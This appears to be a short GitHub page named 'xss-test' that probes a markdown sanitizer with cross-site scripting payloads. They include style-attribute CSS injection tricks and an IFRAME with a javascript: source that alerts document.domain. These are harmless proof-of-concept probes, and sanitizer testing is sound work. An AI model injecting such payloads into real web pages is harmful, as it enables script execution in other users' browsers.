 # xss-test
xss



<div style="font-family:'foo&#10;;color:red;';">XXX

<div style="font-family:foo}color=red;">HOLA


```

<!-- xss-Here -->
<!-- xss-Here -->
<!-- xss-Here -->
<!-- /xss-@Here() -->

<IFRAME SRC="javascript:javascript:alert(document.domain);"></IFRAME>


```
